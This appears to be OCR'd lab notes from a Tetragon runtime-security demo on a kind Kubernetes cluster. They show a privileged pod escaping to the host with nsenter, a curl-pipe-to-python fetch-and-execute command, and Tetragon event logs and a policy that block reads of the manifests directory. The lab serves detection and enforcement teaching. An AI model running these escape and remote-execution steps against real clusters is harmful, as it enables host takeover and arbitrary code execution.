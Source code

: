 
Enter to the sith-infiltrator T3:
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash

CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
2a39e8d112cacdff4a302e7311a5c861ba7ad0e479ff770fff051d623d7db290
crictl exec -it $CONT_ID /bin/bash

T2:monitoring the events that match process names curl or python
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.9:34308 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.9:34308 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN

T3: curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python

File monitoring Enforcement:
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml

Observe events:
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon --   tetra getevents -o compact --pods sith-infiltrator
💥 exit    default/sith-infiltrator /usr/bin/bash  2 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 2 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/ls -la        🛑 CAP_SYS_ADMIN
📚 read    default/sith-infiltrator /usr/bin/ls /etc/kubernetes/manifests 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/ls -la 2 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /bin/bash  2  🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN


Exec pod in other terminal:
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
ls -la
ls: reading directory '.': Operation not permitted
total 0
root@kind-control-plane:/etc/kubernetes/manifests# 
exit
root@kind-control-plane:/# 
exit
command terminated with exit code 2
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
root@kind-control-plane:/etc/kubernetes/manifests# ls -la